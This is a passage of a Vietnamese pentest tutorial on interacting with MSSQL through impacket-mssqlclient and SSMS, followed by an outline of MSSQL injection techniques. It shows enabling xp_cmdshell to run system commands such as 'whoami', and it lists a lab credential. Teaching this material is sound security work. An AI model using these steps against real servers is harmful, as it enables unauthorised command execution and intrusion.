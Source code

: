 #### 2. **Impacket-MSSQLClient (Linux, Command Line)**

`MSSQLClient.py` là một phần của bộ công cụ `Impacket`, hỗ trợ tương tác với MSSQL từ hệ điều hành Linux, rất hữu ích trong quá trình pentest.

**Kết nối với MSSQL:**
```bash
impacket-mssqlclient thomas:'TopSecretPassword23!'@SQL01 -db bsqlintro
```

- `-db`: Chọn cơ sở dữ liệu mặc định.

**Chạy truy vấn:**
```sql
SQL> SELECT * FROM INFORMATION_SCHEMA.TABLES;
```

**Kích hoạt và sử dụng `xp_cmdshell`:**
```sql
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

**Kết quả:**
```
NT SERVICE\mssqlserver
```

#### 3. **SQL Server Management Studio (SSMS, Windows GUI)**

`SQL Server Management Studio (SSMS)` là công cụ GUI mạnh mẽ giúp người dùng quản lý và tương tác với MSSQL Server. 

**Kết nối đến máy chủ:**
- Mở SSMS, nhập thông tin kết nối bao gồm địa chỉ máy chủ, tên người dùng, và mật khẩu.

**Chạy truy vấn:**
- Nhấp chuột phải vào cơ sở dữ liệu, chọn `New Query`, nhập truy vấn và nhấn `Execute`.

### Khai Thác MSSQL Injection

MSSQL có một số đặc trưng có thể tận dụng khi khai thác SQL Injection:

1. **Sử dụng `xp_cmdshell` để thực thi lệnh hệ thống.**
2. **Sử dụng hàm `sp_configure` để kích hoạt các cấu hình nâng cao.**
3. **Khai thác blind SQLi thông qua các hàm như `WAITFOR DELAY`.**

**Ví dụ khai thác với `xp_cmdshell`:**
```sql
SQL> EXEC xp_cmdshell 'whoami';
```

**Kết quả:**
```
NT SERVICE\mssqlserver
```

---
2
## Blind SQL Injection
